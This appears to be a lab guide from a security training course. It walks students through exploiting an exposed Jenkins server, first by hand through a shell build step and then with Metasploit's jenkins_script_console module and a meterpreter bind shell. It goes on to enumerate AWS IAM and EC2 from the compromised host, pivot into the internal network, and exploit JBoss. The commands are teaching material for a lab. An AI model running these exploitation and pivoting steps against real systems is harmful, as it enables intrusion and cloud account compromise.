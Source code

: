 # Lab 2

**Table of Contents**

- [Enumeration](##enumeration)
- [Exploiting Jenkins Manually](##exploiting-jenkins-manually)
- [Introducing Metasploit](##introducing-metasploit)
- [Exploiting Jenkins with Metasploit](##exploiting-jenkins-with-metasploit)
- [Pivot/Penetrate](##pivot/penetrate)

# Title

In this lab, we will be exploiting a popular Build Platform and use it to pivot deeper into the network.

*Resources:*

- [https://nmap.org/book/man.html](https://nmap.org/book/man.html)
- [https://github.com/rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework)
- [http://docs.aws.amazon.com/cli/latest/](http://docs.aws.amazon.com/cli/latest/)

---

## Enumeration

Find a vulnerable host.

1. Install Nmap.

  ```
$ sudo yum -y install nmap
  ```

2. Port scan a vulnerable host.

  ```
$ nmap -PN -p8080 -sV 52.41.95.90
  ```

## Exploiting Jenkins Manually

1. Load `http://52.39.125.179:8080` on your browser.

2. Select `New Item`, enter your student ID under `Item name` and select `Freestyle project`. Click `OK`.

3. Under `Build`, click `Add a build step`, select `Execute shell`. In the `Command` text box enter `cat /etc/passwd` and click `Save`.

4. Select `Build Now`, then click the last `Build History` job and click `Console Output`. What do you see? Would you put this host on the internet as is?

5. Go back to your project and click `Configure` run other commands such as `whoami`, `pwd` and `ps` to familiarize yourself with this host. What flavor of linux is this? What packages are installed?


## Introducing Metasploit

1. Install Metasploit.

  Download and extract the Metasploit package from the DSO bucket: `dso-public-bucket`

  ```
$ curl -O https://s3-us-west-2.amazonaws.com/dso-public-bucket/metasploit-framework-master.zip
$ unzip metasploit-framework-master.zip
  ```

  Alternatively clone the Metasploit Git project directly.

  ```
$ git clone https://github.com/rapid7/metasploit-framework.git
  ```

2. Install dependencies and run `msfconsole`.

  ```
$ cd metasploit-framework-master
$ sudo yum -y install libpcap-devel postgresql-devel libsqlite3-dev sqlite-devel
$ bundle install
$ ./msfconsole

# cowsay++
 ____________
< metasploit >
 ------------
       \   ,__,
        \  (oo)____
           (__)    )\
              ||--|| *


       =[ metasploit v4.12.10-dev                         ]
+ -- --=[ 1556 exploits - 902 auxiliary - 268 post        ]
+ -- --=[ 438 payloads - 38 encoders - 8 nops             ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf >
  ```

## Exploiting Jenkins with Metasploit

1. Search for the Jenkins-CI Script-Console Java Execution exploit. You can do this using the `search` keyword.

2. Configure the exploit for use.

In the example below we are using TCP port 10001 to create a listener (`LPORT`). Please contact the instructor to see which port you should be using.

```
> use exploit/multi/http/jenkins_script_console
> show options
> set RHOST 52.39.125.179
> set RPORT 8080
> set TARGETURI /
> set target 1
> set payload linux/x86/meterpreter/bind_tcp
> set LPORT 10001
```

2. Exploit the target and run the shell.

```
> exploit
> shell
```

3. Run the AWS CLI to determine if this host has IAM permissions.

```
$ aws iam list-users --region us-west-2
```

4. Since this host does not have IAM privileges, let's find a host that does.

Run the AWS CLI to determine the IP address of another host that may have an overly permissive instance profile/role.

```
$ aws ec2 describe-instances --region us-west-2
```

Is that shot of JSON to the eye? Try filtering the results, like this:

```
aws ec2 describe-instances --region us-west-2 --filters Name=iam-instance-profile.arn,Values=arn:aws:iam::717986480831:instance-profile/dso-overly-permissive
```

Make note of this host's IP address. This is target 2.

Throw the shell into the background by pressing `ctrl-z`, followed by `y` and `ENTER`. Also throw the Meterpreter shell into the background by again pressing `ctrl-z`, followed by `y` and `ENTER`. Then list your sessions.

```
> sessions
```

Make note of the session ID, e.g., `1`.


## Pivot/Penetrate

1. Add a route to pivot to a host that is deeper inside the network (target 2).

E.g.,

```
> route add 10.0.6.0 255.255.255.0 1
```

2. Scan the host you discovered for vulnerabilities.

```
> use auxiliary/scanner/http/jboss_vulnscan
> show options
> set RHOSTS 10.0.6.165
> set RPORT 8080
> show options
> run
```

2. Search for the JBoss DeploymentFileRepository WAR Deployment exploit. E.g., `search JMXInvokerServlet`.

3. Configure the exploit.

```
> use exploit/multi/http/jboss_invoke_deploy
> set RHOST 10.0.6.165
> set target 1
> set payload java/meterpreter/bind_tcp
> set LPORT 10001
> exploit
```

4. Run the AWS CLI to determine if this host has IAM permissions.

```
> shell
python -c 'import pty; pty.spawn("/bin/bash")'
$ export http_proxy=http://proxy:3128
$ export https_proxy=http://proxy:3128
$ aws iam list-users --region us-west-2
```

What does this mean?
